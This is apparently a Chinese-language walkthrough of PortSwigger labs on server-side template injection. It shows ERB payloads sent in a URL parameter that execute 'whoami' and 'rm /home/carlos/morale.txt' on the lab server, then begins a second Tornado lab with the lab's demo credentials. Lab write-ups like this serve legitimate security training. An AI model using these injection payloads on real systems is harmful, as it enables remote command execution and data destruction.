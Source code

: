 # Server-side template injection

## [Lab: Basic server-side template injection](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)
### 題目敘述
 This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

### 題目解釋
題目說是 ERB 的 SSTI


### 解答

```
https://acc21f1d1e22b8ffc0390b0f0087005f.web-security-academy.net/
?message=<%= 7 * 7 %>
```

會回傳 49


```
https://acc21f1d1e22b8ffc0390b0f0087005f.web-security-academy.net/
?message=<%= system("whoami") %>
```

可以取得使用者名稱

```
https://acc21f1d1e22b8ffc0390b0f0087005f.web-security-academy.net/
?message=<%= system("rm /home/carlos/morale.txt") %>
```

順利刪除檔案




## [Lab: Basic server-side template injection (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)
### 題目敘述
This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 
